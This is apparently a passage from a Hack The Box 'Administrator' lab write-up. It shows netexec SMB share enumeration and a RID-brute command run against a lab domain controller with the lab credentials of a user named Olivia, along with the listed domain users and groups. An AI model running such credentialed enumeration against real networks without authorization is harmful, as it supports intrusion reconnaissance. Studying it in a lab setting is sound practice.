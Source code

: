 ```sh
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share 
```
### rid brute : 
```sh 
$ nxc smb administrator.htb -u 'Olivia'  -p 'ichliebedich' --rid-brute
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich 
SMB         10.10.11.42     445    DC               498: ADMINISTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)                                                                                 
SMB         10.10.11.42     445    DC               500: ADMINISTRATOR\Administrator (SidTypeUser)
SMB         10.10.11.42     445    DC               501: ADMINISTRATOR\Guest (SidTypeUser)
SMB         10.10.11.42     445    DC               502: ADMINISTRATOR\krbtgt (SidTypeUser)
SMB         10.10.11.42     445    DC               512: ADMINISTRATOR\Domain Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               513: ADMINISTRATOR\Domain Users (SidTypeGroup)
SMB         10.10.11.42     445    DC               514: ADMINISTRATOR\Domain Guests (SidTypeGroup)
SMB         10.10.11.42     445    DC               515: ADMINISTRATOR\Domain Computers (SidTypeGroup)
SMB         10.10.11.42     445    DC               516: ADMINISTRATOR\Domain Controllers (SidTypeGroup)                                                                                                      
SMB         10.10.11.42     445    DC               517: ADMINISTRATOR\Cert Publishers (SidTypeAlias)
SMB         10.10.11.42     445    DC               518: ADMINISTRATOR\Schema Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               519: ADMINISTRATOR\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               520: ADMINISTRATOR\Group Policy Creator Owners (SidTypeGroup)                                                                                             
SMB         10.10.11.42     445    DC               521: ADMINISTRATOR\Read-only Domain Controllers (SidTypeGroup)                                                                                            
SMB         10.10.11.42     445    DC               522: ADMINISTRATOR\Cloneable Domain Controllers (SidTypeGroup)                                                                                            
SMB         10.10.11.42     445    DC               525: ADMINISTRATOR\Protected Users (SidTypeGroup)
SMB         10.10.11.42     445    DC               526: ADMINISTRATOR\Key Admins (SidTypeGroup)
SMB         10.10.11.42     445    DC               527: ADMINISTRATOR\Enterprise Key Admins (SidTypeGroup)                                                                                                   
SMB         10.10.11.42     445    DC               553: ADMINISTRATOR\RAS and IAS Servers (SidTypeAlias)                                                                                                     
SMB         10.10.11.42     445    DC               571: ADMINISTRATOR\Allowed RODC Password Replication Group (SidTypeAlias)                                                                                 
```